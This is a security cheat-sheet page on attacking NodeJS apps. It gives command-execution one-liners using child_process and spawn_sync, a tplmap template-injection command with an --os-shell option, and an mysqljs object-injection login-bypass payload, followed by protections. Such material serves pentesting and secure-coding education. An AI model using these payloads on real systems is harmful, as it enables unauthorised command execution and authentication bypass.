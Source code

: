 ```yaml
---
description: The backend for running JavaScript as a server or application
---
```


# NodeJS

## # Related Pages

{% content-ref url="../javascript/" %}
[javascript](../javascript/)
{% endcontent-ref %}

{% content-ref url="bun.md" %}
[bun.md](bun.md)
{% endcontent-ref %}

## Code Execution

<pre class="language-javascript"><code class="lang-javascript">// Simplest
<strong>require("child_process").execSync("id").toString()
</strong>// When require() is undefined
<strong>process.mainModule.require("child_process").execSync("id").toString()
</strong>// When process.mainModule is undefined
<strong>process.binding('spawn_sync').spawn({
</strong><strong>    file: '/bin/sh',
</strong><strong>    args: ['sh', '-c', 'id'],
</strong><strong>    stdio: [
</strong><strong>        {type:'pipe',readable:1,writable:0},
</strong><strong>        {type:'pipe',readable:0,writable:1},
</strong><strong>        {type:'pipe',readable:0,writable:1}
</strong><strong>    ]
</strong><strong>}).output.toString()
</strong></code></pre>

## Template Injection (SSTI)

Similar to [sqlmap](https://github.com/sqlmapproject/sqlmap), there is [tplmap](https://github.com/epinna/tplmap) which aims to automate template injections by testing various templating engines, as many exist for NodeJS. Here is a simple example:

```shell-session
$ python2 tplmap.py -u http://localhost:3000/?name=john
```

The tool also allows you to exploit the injection using arguments such as `--os-shell`. \
See the `--help` page for more useful arguments.&#x20;

## Dependencies (`package.json`)

In every NodeJS project, there is a `package.json` file which contains a lot of metadata information about the project, such as where the main file is, some description, and the dependencies. These are external pieces of code with a version number attached that are used throughout the project.&#x20;

A possible problem is when these dependencies aren't regularly updated, and vulnerabilities might be found in those dependencies and be fixed in later versions. If the code keeps using the older version it may become vulnerable because of those dependencies.&#x20;

A simple way to check for known vulnerabilities is by uploading the `package.json` file to Snyk checker:

{% embed url="https://snyk.io/advisor/check/npm" %}
Upload your package.json file and see all the vulnerabilities in old dependencies
{% endembed %}

For attackers, this can give an idea of what vulnerabilities there might be. Of course, not all vulnerabilities this checker finds are actually exploitable, but you should find what parts/functions of the vulnerable code are used to see if it is.&#x20;

### [`mysqljs/mysql`](https://www.npmjs.com/package/mysql) library (latest) - SQL Injection using Objects

{% embed url="https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4" %}
Source of this trick, using JSON Objects to inject into prepared statements
{% endembed %}

This popular `npm` library uses prepared statements to prevent SQL Injection using regular _strings_, but a code example like the following is surprisingly still **vulnerable**:

<pre class="language-javascript"><code class="lang-javascript">...
app.post("/auth", function (request, response) {
 var username = request.body.username;
 var password = request.body.password;
 if (username &#x26;&#x26; password) {
<strong>  connection.query(
</strong><strong>   "SELECT * FROM users WHERE username = ? AND password = ?",
</strong><strong>   [username, password],
</strong>   function (error, results, fields) {
    ...
   }
  );
 }
});
...
</code></pre>

In this case the `username` and `password` variables are directly passed into the SQL query, but using prepared statements with `?` question marks as placeholders. Normally this would not be vulnerable to SQL Injection as the library handles separating code and data for you, which would be true if the variables were strings. \
If the variables are _objects,_ however, weird things start to happen. With web endpoints in Express like the above, you can use the `Content-Type: application/json` to use JSON for your body, which may contain a more complex `Object` like the following:

```json
{
  "username": "admin",
  "password": {
    "password": 1
  }
}
```

This is not a string anymore and `mysql` will have to put it into the query somehow. Instead of simply stringifying the object, it does something unexpected where key-value pairs become `key=value` pairs inside of the final query:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = password = 1
```

To understand what this weird new query does, we follow the code from **left to right**. The `WHERE` clause makes sure `username` is equal to `'admin'`, and then comes the messed-up syntax. What actually happens here is that the first part `password = password` means "the password column equals the password _column_", which is always true! Then the last `= 1` simply tests if the previous expression is equal to one. Due to type coercion, `TRUE` is the same as `1`, so this condition will also be true.&#x20;

This results in only the username being checked, which in theory could also be injected in the same way by providing an object for the username, if the administrator username is not known and we want to simply log in as the _first_ user.&#x20;

{% hint style="info" %}
**Tip**: JSON is not the only way to create an `Object` instead of a `String`, as some frameworks also accept the `?name[key]=value` syntax in query or body parameters. The above login bypass would look like this with the new syntax:

<pre class="language-javascript"><code class="lang-javascript">Content-Type: application/x-www-form-urlencoded
...

<strong>username=admin&#x26;password[password]=1
</strong></code></pre>
{% endhint %}

{% hint style="success" %}
Successful **protections** against this technique are:

* The alternative [`mysql2`](https://www.npmjs.com/package/mysql2) library
* Wrapping parameters in `String(...)` to stringify them
* The `stringifyObjects: true` option while setting up with `createConnection`:

<pre class="language-javascript"><code class="lang-javascript">connection = mysql.createConnection({
  ...
<strong>  stringifyObjects: true,
</strong>})
</code></pre>
{% endhint %}
